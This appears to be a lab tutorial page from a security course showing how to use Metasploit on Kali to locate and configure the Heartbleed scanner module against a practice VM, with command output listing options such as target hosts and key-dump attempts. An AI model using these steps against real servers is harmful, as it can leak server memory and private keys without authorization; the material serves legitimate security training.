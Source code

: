 In the following demonstration, we will use the Kali machine to exploit the Heartbleed VM. 

1. In Kali, launch a terminal and run `msfconsole`.


2. We will use MSFconsole to identify Heartbleed exploits.
  
   - Run `search heartbleed`

    ```bash
    msf > search heartbleed

    Matching Modules
    ================

       Name                                              Disclosure Date  Rank    Check  Description
       ----                                              ---------------  ----    -----  -----------
       auxiliary/scanner/ssl/openssl_heartbleed          2014-04-07       normal  Yes    OpenSSL Heartbeat (Heartbleed) Information Leak
       auxiliary/server/openssl_heartbeat_client_memory  2014-04-07       normal  No     OpenSSL Heartbeat (Heartbleed) Client Memory Exposure
    ```

   - Auxillary modules are reconnaissance tools. They're used to scan networks and detect vulnerabilities such as Heartbleed.

    The first module, `auxiliary/scanner/ssl/openssl_heartbleed`, is used to test a host for the Heartbleed vulnerability.
  
   - Run `use auxiliary/scanner/ssl/openssl_heartbleed`

3. Now, we need to configure the modules before using them. 

    Check which parameters we need to set:

     - Run `show options`

    ```
    msf > use  auxiliary/scanner/ssl/openssl_heartbleed
    msf auxiliary(scanner/ssl/openssl_heartbleed) > show options

    Module options (auxiliary/scanner/ssl/openssl_heartbleed):

      Name              Current Setting  Required  Description
      ----              ---------------  --------  -----------
      DUMPFILTER                         no        Pattern to filter leaked memory before storing
      LEAK_COUNT        1                yes       Number of times to leak memory per SCAN or DUMP invocation
      MAX_KEYTRIES      50               yes       Max tries to dump key
      RESPONSE_TIMEOUT  10               yes       Number of seconds to wait for a server response
      RHOSTS                             yes       The target address range or CIDR identifier
      RPORT             443              yes       The target port (TCP)
      ...
    ```

### 11. Attacking Heartbleed with Metasploit Activity

- [Activity File: Attacking Heartbleed with Metaploit](Activities/12_Metasploit_Heartbleed//Unsolved/README.md)
